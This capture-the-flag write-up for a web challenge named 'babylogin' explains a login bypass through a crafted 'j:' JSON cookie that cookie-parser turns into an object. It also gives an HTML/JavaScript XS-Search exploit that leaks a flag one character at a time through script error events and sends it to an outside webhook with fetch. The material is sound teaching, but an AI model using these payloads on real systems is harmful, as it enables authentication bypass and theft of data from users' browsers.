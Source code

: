 # babylogin

## TLDR;

1. Bypass login by modifying the cookie to a json cookie that will create "allowed" property for `auth`

Example: `j:{"id":"id_here","username":"a","password":"a","allowed":true}`

2. Abuse a simple xs-search by detecting http errors https://xsleaks.dev/docs/attacks/error-events/ and exfiltrate the flag char by char

## Login bypass

For this challenge, we needed to pollute or add a property named `allowed` by modifying the cookie, this is possible since cookieparser by default has these special type of cookies called JSONCookies

Let's check the cookie-parser source

```js
// https://github.com/expressjs/cookie-parser/blob/master/index.js
/**
 * Parse JSON cookie string.
 *
 * @param {String} str
 * @return {Object} Parsed object or undefined if not json cookie
 * @public
 */

function JSONCookie (str) {
  if (typeof str !== 'string' || str.substr(0, 2) !== 'j:') {
    return undefined
  }

  try {
    return JSON.parse(str.slice(2))
  } catch (err) {
    return undefined
  }
}
```

So this basically means instead of having a normal stringified cookie, we can simple add `j:` in the begining which would lead cookie-parser to treat it as an object via `JSON.parse`, therefore we can add a new property to the obj `auth` in the `checkCookie` function.

## XS-Search

After bypassing the login, we notice the search functionality is accessible by the admin bot only as well as that there are no SOP(same origin policy) protections in place therefore we can immediatly realize this is a simple XS Search vulnerability.

For this attack to work, we need to find a status change that makes it easy to detect correct characters, in our case the website makes it easier by applying HTTP Status codes to the search functionality:

```
Success: user found => 200 OK
Fail: user not found => 404 Not found 
```

We can now start building our script by using this simple status code error detection from https://xsleaks.dev/docs/attacks/error-events/

```html
</html>
<body>
    <script> 
        var flag = "cr3{"
        const exfil_url = "https://webhook.url"
        const probeError = (url, char) => {
            let s = document.createElement('script');
            s.src = url;
            s.onload = () => {
                flag += char
                fetch(exfil_url+"?flag="+encodeURIComponent(flag))
                s.remove()
            };
            document.head.appendChild(s);
            
        };
        
        // loop leak function to add chars 
        setInterval(()=>{
            for (let c of  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}") {
                probeError("http://localhost:3000/search?username="+encodeURIComponent(flag + c),c);    
            }
        },2500)
        
    </script>
</body>
</html>
```

Notes:
- To make the search easier, I've included the alphabet needed to check for correct chars in the description. 
- You can also notice the bot has a wait timeout for 40 seconds, which should be enough to exfil the first part of the flag, and you can simply modify the script with the portion of the flag you got and resubmit to the bot. 